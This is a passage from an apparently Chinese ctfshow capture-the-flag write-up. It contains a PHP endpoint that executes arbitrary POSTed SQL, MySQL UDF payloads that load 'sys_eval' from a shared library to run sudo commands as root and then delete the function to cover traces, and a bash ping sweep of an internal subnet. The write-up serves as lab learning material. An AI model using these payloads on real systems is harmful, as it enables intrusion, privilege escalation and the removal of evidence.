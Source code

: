 ```
            array_push($ret,$row);
        }
    $res->close();
    }
    else{echo $conn->error;}
    $conn->close();
    return $ret;
    }
$ret=query($_POST['sql']);
print_r(($ret));
?>
```

```
sql=show global variables like 'secure%'
sql=CREATE FUNCTION sys_eval RETURNS STRING SONAME 'y0ng.so'
sql=select sys_eval('sudo cat /root/you_win')
//擦屁股
sql=drop function sys_eval
sql=delete from mysql.func where name='sys_eval'
```



![image-20220324232943953](https://img-blog.csdnimg.cn/img_convert/98136d187955daea83b5c25fae489270.png)

执行系统函数就行了

![image-20220324233016439](https://img-blog.csdnimg.cn/img_convert/8252f2759ee93e698d49617ec5dcc7c3.png)

ctfshow{4ab2c2ccd0c3c35fdba418d8502f5da9}

# 655

看了一下/etc/hosts 发现 172网段

![image-20220326181047726](https://img-blog.csdnimg.cn/img_convert/26e6381d71cf85f89271d0a30401f07f.png)

扫一下网段存活主机

```
#!/bin/bash
for ip in `seq 1 50`
  do
   {
  ping -c 1 172.2.171.$ip >/dev/null 2>&1
    if [ $? -eq 0 ];then
     echo 172.2.171.$ip UP
    else
     echo 172.2.171.$ip DOWN
   fi
}&
done
wait

//a=echo `sh scan.sh`;
```

